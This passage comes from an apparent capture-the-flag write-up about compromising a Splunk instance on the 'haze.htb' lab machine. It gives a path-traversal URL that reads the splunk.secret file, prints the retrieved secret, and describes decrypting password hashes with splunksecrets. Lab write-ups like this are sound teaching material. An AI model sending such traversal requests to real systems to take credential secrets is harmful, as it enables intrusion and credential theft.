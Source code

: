 
| Username    |
| ----------- |
| Paul Taylor |

## Decrypting Hashes

First we tried to crack those hashes which was not very fruitful so we started to look for an option to `decrypt` the `hashes`. While doing so we found an `article` that described that we need the `splunk secret` in order to move on.

- [https://community.splunk.com/t5/Security/What-salts-the-password-hash/m-p/9272](https://community.splunk.com/t5/Security/What-salts-the-password-hash/m-p/9272)
- [https://asecuritysite.com/hash/splunk_hash](https://asecuritysite.com/hash/splunk_hash)

```console
/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret
```

- [http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret](http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret)

```console
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

![](images/2025-03-29_20-39_8000_secret.png)

After we grabbed the `splunk secret` we installed `splunksecrets` using `pipx` and created the `splunk.secret` file locally.

- [https://github.com/HurricaneLabs/splunksecrets](https://github.com/HurricaneLabs/splunksecrets)
